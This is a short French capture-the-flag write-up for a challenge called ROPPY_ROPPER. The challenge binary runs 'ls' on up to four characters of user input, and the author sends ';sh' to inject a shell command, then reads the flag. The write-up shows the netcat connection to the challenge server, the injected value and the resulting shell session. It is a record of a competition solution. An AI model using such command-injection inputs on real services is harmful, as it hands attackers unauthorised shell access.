# ROPPY_ROPPER
```
ncat 35.238.225.156 1004
```
- Fichier : [lsass](../attachements/roppy_ropper/lsass)
Le programme demande un input de max 4 chars et fait un truc du genre :
```bash
ls $input
```
Vu le nom du chall fallait faire des ROP j'imagine mais pas besoin enfait,
Il suffit de mettre en input :
```sh
input=';sh'
```
t'obtiens un shell et tu lis le flag 🙂
```
$ ncat 35.238.225.156 1004
(list_me_like_crazy)
Is this lsass I dont understand :)
Give me your arguments:
;sh
Result: ls ;sh:
flag.txt  lsass
sh-5.0$ cat flag.txt 
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
flag : `b00t2root{R0p_cHa1nS_ar3_tH3_b3st}`
GG ! Enfin un qui ne fait pas partie de ceux qui ne sont rien
<:macron:784920050544017429>
